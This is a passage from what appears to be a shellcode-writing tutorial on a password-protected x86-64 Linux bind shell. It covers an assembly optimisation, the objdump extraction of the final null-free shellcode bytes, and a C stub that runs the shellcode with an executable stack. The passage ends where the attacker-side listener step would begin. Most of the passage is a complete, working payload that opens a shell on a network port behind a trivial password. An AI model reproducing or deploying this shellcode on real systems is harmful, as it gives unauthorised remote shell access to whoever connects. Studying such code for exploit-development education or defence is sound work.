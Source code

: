     push dword 0x73736170  ; password "pass"
    push 4                 ; password length
    pop rcx
    push rsp
    pop rdi        ; rdi = *password
    cld
    repz cmpsb
    jne exit

I tried this and after adjusting the code to this change 12 bytes were saved. However, I opted *not to use* this optimisation in the final shellcode. Why? Because I wanted the password to be trivial to change. Changing the password in the code above would require not only to calculate the new number to push but also to modify the instructions. Imagine you wanted to use "foobar" as the password instead: a single push of 4 bytes would no longer work, you'd have to add another push of 2 bytes. Oh, and don't forget to change the length of the password! Compare this with the ease of just typing in a new password.

Conclusion
----------

We're done. The shellcode works, it has no nulls and we've shortened it. The final shellcode is at the end.

    $ nasm -felf64 bind-shell-pass.nasm
    $ objdump -d bind-shell-pass.o | grep -P ":\t" | cut -f2 | tr -d ' \n' | sed -e 's/../\\x&/g'
    \xeb\x05\x70\x61\x73\x73\x04\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x50\x5f\x31\xc0\x50\x68\x70\xff\xff\x10\x81\x34\x24\x0f\xff\xff\x11\x66\x68\x11\x5c\x66\x6a\x02\x04\x2a\x54\x5e\x80\xc2\x10\x0f\x05\x6a\x02\x5e\xb0\x21\x0f\x05\xff\xce\x79\xf8\x50\x50\x54\x5e\xb2\x10\x0f\x05\x31\xc9\x8a\x0d\xb7\xff\xff\xff\x48\x8d\x3d\xac\xff\xff\xff\xfc\xf3\xa6\x75\x1a\x31\xc0\x50\x54\x5a\x48\xbe\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x54\x5f\x50\x57\x54\x5e\xb0\x3b\x0f\x05\xb0\x3c\x0f\x05

Let's put the shellcode in a C test stub:

    #include <stdio.h>
    #include <string.h>

    char code[] =
    "\xeb\x05\x70\x61\x73\x73\x04\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x50"
    "\x5f\x31\xc0\x50\x68\x70\xff\xff\x10\x81\x34\x24\x0f\xff\xff\x11\x66\x68\x11\x5c"
    "\x66\x6a\x02\x04\x2a\x54\x5e\x80\xc2\x10\x0f\x05\x6a\x02\x5e\xb0\x21\x0f\x05\xff"
    "\xce\x79\xf8\x50\x50\x54\x5e\xb2\x10\x0f\x05\x31\xc9\x8a\x0d\xb7\xff\xff\xff\x48"
    "\x8d\x3d\xac\xff\xff\xff\xfc\xf3\xa6\x75\x1a\x31\xc0\x50\x54\x5a\x48\xbe\x2f\x62"
    "\x69\x6e\x2f\x2f\x73\x68\x56\x54\x5f\x50\x57\x54\x5e\xb0\x3b\x0f\x05\xb0\x3c\x0f"
    "\x05";

    int main() {
        printf("length: %lu\n", strlen(code));
        ((int(*)()) code)();
    }

Compile it:

    $ gcc -Wall -z execstack shellcode.c -o shellcode

On the attacker's machine open a port to listen at:
